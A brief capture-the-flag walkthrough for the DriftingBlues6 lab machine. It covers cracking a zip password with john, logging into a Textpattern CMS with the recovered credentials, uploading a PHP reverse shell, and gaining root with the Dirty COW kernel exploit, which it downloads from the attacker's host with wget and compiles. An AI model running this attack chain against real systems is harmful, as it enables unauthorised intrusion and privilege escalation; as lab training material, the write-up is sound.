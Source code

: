 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# DriftingBlues6
# 1/1/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT      STATE    SERVICE         VERSION
80/tcp    open     http            Apache httpd 2.2.22 ((Debian))

----------------------------------------------------
robots.txt
----------------------------------------------------
->
User-agent: *
Disallow: /textpattern/textpattern
dont forget to add .zip extension to your dir-brute
;)
----------------------------------------------------
# got cms login panel at(/textpattern/textpattern)
----------------------------------------------------
finding creds

we know from robots.tx
we have add .zip extention  hopefully we find something
we got zip file
spammer.zip

but it is password protected
lets try to crack with john

zip2john spammer.zip > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
got password for zip > myspace4

cat creds.txt 
mayer:lionheart     
use this to login cms                                         

----------------------------------------------------
exploitation (cms textpattern v4.8.3)
----------------------------------------------------
exploit available at searchsploit
searchsploit -m 48943.py
python3 48943.py http://192.168.75.219/textpattern/textpattern/ mayer lionheart  
unfortunately exploit doesnt work

but on cms site we can upload the php files and acces it to execute
lets upload a php reverse
http://192.168.75.219/textpattern/files/

----------------------------------------------------
privilege escalation
----------------------------------------------------
vulnerable kernel version
3.2.0-4-amd64
exploit availble at exploit.db
https://www.exploit-db.com/exploits/40839

wget http://192.168.49.75:80/40839.c

gcc -pthread 40839.c -o dirty -lcrypt
su firefart

download it compile it execute it
you got root